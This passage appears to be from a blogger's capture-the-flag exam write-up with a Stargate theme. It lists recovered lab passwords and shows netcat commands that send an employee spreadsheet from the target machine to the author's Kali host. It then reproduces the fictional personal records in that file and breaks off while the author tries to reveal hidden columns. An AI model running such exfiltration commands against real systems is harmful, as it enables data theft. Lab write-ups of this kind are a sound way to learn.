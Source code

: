 ```
password :
Bank account : SaveMyMoneyPlease
Password Vault : Idontremembermypassword
Detroy base password :  SaveTheTori!
employees Excel: ImTheBoss
Intranet : StargateCommand!
Secure network : KeepEverythingsafe1
```

The fourth one seems to be interesting, but I don't know why yet (and I will never find out).

I went back to exfiltrate the Excel file, I could have set up a SSH server or a
FTP server but it would have taken too much time, so I went with netcat since it was already there. Starting a netcat server on my Kali linux awaiting for files.

```shell
nc -l -p 1234 -q 1 > something.zip < /dev/null
```

And sending the file from the target machine over the network:

```shell
cat /home/general/Documents/Staff/liste_employes.xlsx | netcat 192.168.0.5 1234
```

I'm not a Microsoft person so I don't have any license for Excel and I opened the file with LibreOffice Calc. I ended up staring for a couple of minutes at something like this:

| |A |B |C |E |F |G |I |
|1|First Name|Last Name|date of birth|address |department |position|status |
|2|George |Harmon |04-08-1942 |100, Summit Circle, Westmount|Stargate command|General |permanent|
|3|Jack |O'Neil |23-01-1950 |260, Rue Dufferin, Hampstead |Stargate SC1 |Colonel |permanent|
|4|Samantha |Carter |28-08-1965 |14, Avenue Hudson, Westmount |Stargate SC1 |Major |permanent|
|5|Daniel |Jackson |15-12-1970 |1414, Rue Chomedey, Westmount|Stargate SC1 |Civil |permanent|
|7|Anthony |Gamez |11-11-2001 |7505 Rue Mcgill, Sherbrooke |Security |Civil |Student |

So I didn't find any security number until I remembered that I was able to count and recite the alphabet, then I tried to expand the hidden line 6 and rows D and H but LibreOffice didn't seem to agree with my decision:

![Desktop View](/assets/img/2023-12-16-ctf-exam/Excel_Warning.png)
